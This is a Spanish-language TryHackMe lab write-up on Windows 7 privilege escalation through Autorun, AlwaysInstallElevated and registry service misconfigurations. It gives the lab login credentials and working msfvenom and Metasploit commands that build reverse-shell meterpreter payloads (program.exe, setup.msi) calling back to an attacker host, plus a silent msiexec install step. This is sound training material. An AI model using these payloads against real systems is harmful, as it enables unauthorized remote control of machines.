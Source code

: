 ```yaml
---
layout: post
title: "Windows PrivEsc Arena"
subtitle: 'TryHackMe - Medium Machine - Windows'
date: 2020-03-29 12:00:00
author: "TheusZero"
header-img: "images/post/WindowsPEA/1.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


# Windows PrivEsc Arena - TryHackMe

Es una maquina o caja de TryHackMe enfocada en bypassear y escalar privilegios dento 
de maquinas windows, corresponde a windows 7 y trata sobre topicos como Autorun, DLL, Memory y Kernel.
Dentro de la maquina existen un total de **14 eventos o TASK** los cuales debemos completar para obtener el award de la maquina.

## Connecting to TryHackMe Network

facil, conectarse a la vpn de TryHackMe

## Deploy the vulnerable machine

aqui debemos spawnear la maquina, nos dan los usuarios para entrar a la maquina:

> username: user password: password321 || username: TCM password: Hacker123 

yo entre por rdesktop que simula una grafica del sistema windows, con es

## Registry Escalation - Autorun 

aqui intentaremos escalar privilegios encontrando un programa que se ejecute al inicio 

#### Detection

una vez dentro de la maquina windows, debemos acceder a una terminal de commandos y escrbir el prompt :
```Python
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```
esto nos dara acceso a una ventana que nos mostrara diferentes procesos y elementos, sin embargo el que realmente nos interesa es el de nombre **logon**
![](/TheusZero/images/post/WindowsPEA/logon1.png)
al darle click podemos ver procesos que se ejecutan al principio o termino del windows, por lo tanto lo siguiente es buscar ese programa que encontramos ahi
![](/TheusZero/images/post/WindowsPEA/program-exe.png)
el **programa.exe** es un poco raro, ya que de por si debio ser creado por el usuario.
```Python
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```
con el output podemos ver que tenemos acceso total a los archivos, es decir, que podemos crear y escribrir archivos en la carpeta en la que esta el program.exe

hora de explotar.

#### explotation

abriremos un modulo de metasploit con **msfconsole** en la terminal, una vez dentro usaremos el modulo de multi/handler con 
```Python
use multi/handler
```
ahora le colocaremos el payload de reverse tcp shell 
```Python
set payload windows/meterpreter/reverse_tcp
```
colocaremos la ip nuestra 
```Python
set lhost [Kali VM IP Address]
```
y por ultimo le daremos a **run**

ahora ya con esto listo, generaremos el exploit creado con msfvenom dandole los siguientes comandos.

```Python
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
```
> donde
>> **-p windows/meterpreter/reverse_tcp** corresponde al payload que se usara para crear el exploit
>
>> **-f exe** corresponde a la extension que tendra el archivo
>
>>  **-o program.exe** corresponde al output que tendra el programa

una vez hecho todo esto, solo queda pasar o descargar el archivo program.exe generado en la localizacion del verdadero program.exe en

> C:\Program Files\Autorun Program

te deslogueas y listo.

## AlwaysInstallElevated

#### Detection

abriendo la terminal de comandos cmd o powershell escribrimos:
![](/TheusZero/images/post/WindowsPEA/AIE.png)
```Python
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
en el ouput obtenemos un archivo llamado **AlwaysInstallElevated** que corresponde a **1** es decir, esta activo, que hace esto?. 

Teniendo este mensajes tenemos un supuesto archivo que deja instalar archivos con permisos de administrador siempre, por lo tanto es importantisimo para escalar privilegios, pero como obtenemos acceso al superUsuario?

#### explotacion

creamos el exploit con msfconsole
```Python
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost [Kali VM IP Address]
```

ahora como ultimo paso en la creacion del exploit es usar el siguiente comando:

```Python
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
```

este comando crea un archivo de tipo Windows installer (MSI) con el payload que anteriormente creamos.

mandamos el archivo a la maquina windows, lo ubicamos en donde podamos.

ahora, para hacer funcional el exploit debemos mandar el siguiente comando via cmd o poweshell

```Python
msiexec /quiet /qn /i C:\Temp\setup.msi
```
siendo **C:\Temp\setup.msi** la ruta especifica y de raiz del archivo que creamos como tal.

## Registry

**requisitos**:

abrir una **powershell** 

#### Detection

el comando :

```Python
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\services\regsvc | fl
```
nos mostrara que existe un servicio o registro como tal que tiene y ejecuta archivos de forma **NT AUTHORITY\INTERACTIVE** sobre la key del registro, por ende, si podemos configurarla a nuestro favor podremos obtener una shell de administrador


#### Exploitation

dentro de la maquina

[reverse shell script .c for privesec](https://github.com/sagishahar/scripts.git)